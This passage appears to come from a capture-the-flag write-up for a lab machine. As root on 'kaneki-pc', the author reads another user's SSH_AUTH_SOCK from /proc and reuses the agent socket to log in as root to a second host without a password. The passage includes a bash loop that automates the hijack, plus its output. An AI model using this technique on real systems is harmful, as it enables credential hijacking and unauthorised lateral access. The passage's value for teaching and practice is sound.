 
That `agent.646` file is the socket for authentication. To perform a hijack, I
need to set the environment variable `SSH_SOCK_AUTH` to that `agent` file, and
then just ssh without a password. But the folder and number will change on
each connection, and it doesn’t stay live for very long at all.

I can pull this off manually if I’m fast, waiting for just the turn of the
minute, then get the `agent` file from kaneki_adm’s environment variables.
Then I set the environment variable for myself, and ssh in. I managed to do
it:

    
    
    root@kaneki-pc:~# pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2) su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK
    SSH_AUTH_SOCK=/tmp/ssh-KQVJ5LsSKq/agent.11773
    
    root@kaneki-pc:~# SSH_AUTH_SOCK=/tmp/ssh-KQVJ5LsSKq/agent.11773 ssh root@172.18.0.1 -p 2222
    Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    155 packages can be updated.
    0 updates are security updates.
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Last login: Tue May 28 07:00:01 2019 from 172.18.0.200
    root@Aogiri:~#
    

But more fun is to create a `bash` one-liner that watches for the connection
and connects when it’s time:

    
    
    root@kaneki-pc:/tmp# while true; do
    >  export pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2);
    >  if [ ! -z $pid ]; then
    >    echo "[+] Found pid for kaneki_adm ssh process: $pid";
    >    export SSH_AUTH_SOCK=$(su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK | cut -d'=' -f2);
    >    echo "[+] Found ssh auth socket: $SSH_AUTH_SOCKET";
    >    echo "[*] sshing to target";
    >    ssh root@172.18.0.1 -p 2222;
    >    break;
    >  fi;
    >  sleep 5;
    > done                                                                                                                                                                                        
    [+] Found pid for kaneki_adm ssh process: 20652
    [+] Found ssh auth socket: /tmp/ssh-p5macmIvgg/agent.20329
    [*] sshing to target
    Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
    